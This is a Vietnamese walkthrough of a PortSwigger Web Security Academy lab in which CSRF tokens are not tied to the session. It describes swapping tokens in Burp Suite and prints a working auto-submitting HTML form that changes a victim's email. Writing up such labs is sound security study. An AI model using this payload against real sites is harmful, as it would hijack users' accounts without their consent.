 Thử xem lại response page /my-account?id=wiener: 

![img](https://imgur.com/v7oxJeY.png)

--> Tìm ra 1 hidden csrf token: UzTN6XEj76QvKEFgMcepmoUjaDGBceOD

Log in vào account carlos và update Email.

Trước khi click Update email, Intercept trong Burp Suite.

Thử thay csrf token này của carlos thành hidden csrf token vừa tìm được của wiener:

![img](https://imgur.com/wZUabhY.png)

Tắt Intercept và xem kết quả: 

![img](https://imgur.com/8ybakoT.png)


--> Thay đổi được email của carlos bằng hidden csrf token của wiener!

(Token ở trong ảnh thay đổi là do đã refresh lại page của wiener vì hidden csrf này có thời gian hết hạn)

    <form action="https://0a2600ef03908061b07834c000d400bd.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="attack@example.com" />
      <input type="hidden" name="csrf" value="EqKstubO77p8alLa4poDV0hf0265Fs2Q"/>
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>

![img](https://imgur.com/9ukQDaK.png)

Click Deliver exploit to victim.

Solved the lab!

![img](https://imgur.com/aVmSzqi.png)

--> Lỗ hổng trong bài này là csrf tokens không được gắn với session hiện tại.

# CSRF token is tied to a non-session cookie

Trong một biến thể về lỗ hổng trước đó, một số web app buộc CSRF tokens với cookie, nhưng không phải với cùng một cookie được sử dụng để theo dõi các session. Điều này có thể dễ dàng xảy ra khi một web app sử dụng hai framework khác nhau, một để xử lý session và một cho bảo vệ CSRF, không được tích hợp cùng nhau:

![img](https://imgur.com/ovfIqBr.png)

# CSRF token is tied to a non-session cookie - Continued
